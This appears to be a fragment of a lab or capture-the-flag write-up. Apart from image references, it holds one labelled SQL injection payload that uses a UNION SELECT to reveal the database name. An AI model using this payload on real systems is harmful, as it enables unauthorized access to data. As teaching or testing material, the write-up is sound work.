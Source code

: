 ![image.png](image%206.png)

**PAYLOAD:**

```jsx
tom" UNION SELECT 1,database(),3 -- -
```

![image.png](image%207.png)

![image.png](image%208.png)
